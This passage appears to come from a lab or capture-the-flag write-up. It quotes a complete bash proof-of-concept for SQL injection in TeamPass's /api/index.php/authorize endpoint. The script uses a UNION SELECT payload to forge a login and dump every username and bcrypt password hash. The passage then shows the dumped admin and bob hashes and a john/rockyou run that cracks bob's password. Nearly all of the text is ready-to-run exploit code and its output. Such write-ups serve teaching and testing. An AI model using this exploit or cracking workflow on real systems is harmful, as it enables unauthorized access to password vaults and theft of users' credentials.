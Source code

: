 The article provides the following poc:

```bash
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

The PoC grants us the following credential hashes:

```
admin:$2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob:$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

Cracking these with john:

```
john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt 

Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Remaining 1 password hash
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

bob:cheerleader(?)
```
